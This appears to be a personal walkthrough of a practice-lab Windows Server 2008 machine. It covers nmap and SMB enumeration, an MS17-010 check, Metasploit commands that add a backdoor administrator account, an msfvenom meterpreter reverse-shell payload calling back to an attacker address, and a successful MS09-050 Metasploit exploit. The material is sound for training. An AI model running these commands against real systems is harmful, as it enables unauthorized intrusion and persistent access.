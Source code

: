# NMAP

```
sudo nmap -sC -sV 192.168.247.40 -oN nmap-internal
```

![[PG/Windows/attachments/Pasted image 20250705125503.png]]

Box is old as shit 

Windows Server (R) 2008 Standard 6001 Service Pack 1 microsoft-ds

![[PG/Windows/attachments/Pasted image 20250705130137.png]]

UDP scan
![[PG/Windows/attachments/Pasted image 20250705130359.png]]
- actually a lot of random things here

# SMB 

```
nxc smb 192.168.247.40 -u 'internal' -p 'internal' --shares
```

Windows 6.0 Build 6001 x32 (name:INTERNAL) (domain:internal)

![[PG/Windows/attachments/Pasted image 20250705125824.png]]

```
smbclient -L //192.168.247.40
```

![[PG/Windows/attachments/Pasted image 20250705125915.png]]

Looking up this old as Windows version and I do believe this is eternal blue. 

# Verify Eternal Blue Vuln

```
nmap -Pn -p445 --open --script smb-vuln-ms17-010 192.168.247.40
```

![[PG/Windows/attachments/Pasted image 20250705141515.png]]
- it is vulnerable 

## Exploit EternalBlue with Metasploit 

I don't have creds so..

```
use auxiliary/admin/smb/ms17_010_command
```

Add a user to the box

```
set COMMAND net user cadet Password1! /add
```

Set target 

```
set rhost 192.168.247.40
```

Run 

```
run
```

After this runs, add cadet to local admin group 

```
set CMD net localgroup administrators cadet /add
```

These metasploit modules don't work on x32 architectures :(


So.....eternal blue is a rabbit hole. 

## RDP

```
rdesktop internal
```


wtf

![[PG/Windows/attachments/Pasted image 20250705144649.png]]

- okay whatever 

# Port 5357 

https://www.speedguide.net/port.php?port=5357

There's an exploit for this port.. 

https://learn.microsoft.com/en-us/security-updates/securitybulletins/2009/ms09-063

Here's an exploit https://www.exploit-db.com/exploits/40280

Modify this script. 

Replace shellcode

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.45.152 LPORT=443 EXITFUNC=thread -f python
```

![[PG/Windows/attachments/Pasted image 20250705151641.png]]

- Replace buff with 'shell' for this exploit. I grow weary.

# Use metasploit

```
search ms09-050
```

```
use 0
```
![[PG/Windows/attachments/Pasted image 20250705152708.png]]

![[PG/Windows/attachments/Pasted image 20250705152838.png]]

This worked. UGH. 

![[PG/Windows/attachments/Pasted image 20250705152919.png]]


